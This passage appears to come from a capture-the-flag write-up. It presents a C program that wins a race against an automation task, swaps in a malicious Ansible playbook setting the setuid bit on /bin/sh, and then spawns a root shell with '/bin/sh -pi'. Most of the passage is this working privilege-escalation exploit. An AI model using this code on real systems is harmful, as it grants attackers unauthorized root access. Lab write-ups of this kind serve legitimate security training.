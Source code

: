 We just need to create a speedy compiled program that is efficient enough to time this correctly.
The following Program should work nicely:

```c
// gcc -static ./privesc2.c -o privesc2
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <sys/stat.h>
#include <sys/types.h>

#define PLAYBOOK_PATH "/opt/automation/tasks/playbook_1.yml"
#define PLAYBOOK "- hosts: localhost\n"\
                 "  tasks:\n"\
                 "  - name: pwn\n"\
                 "    ansible.builtin.shell: chmod +s /bin/sh\n"

void replace() {
  struct stat sb;

  while(1) {
    if (stat(PLAYBOOK_PATH, &sb) != 0) {
      if (mkdir(PLAYBOOK_PATH, 0700) == 0) {
        puts("Swapped with directory!");
        return;
      }
      puts("Fail!");
      sleep(110);
    }
    usleep(100);
  }
}

void plant() {
  FILE *file;
  if (file = fopen(PLAYBOOK_PATH, "w")) {
    fprintf(file, "%s", PLAYBOOK);
    fclose(file);
  }
}

int main(int argc, char* argv[]) {
  replace();
  sleep(10);
  system("rm -rf /opt/automation/tasks/playbook_1.yml");
  plant();
  puts("Done!");
  return 0;
}
```
{:file="privesc2.c"}

Running the compiled executable on the target should replace the file with our malicious playbook after a couple minutes.
We then wait another couple minutes and run `/bin/sh -pi` to spawn a root shell.

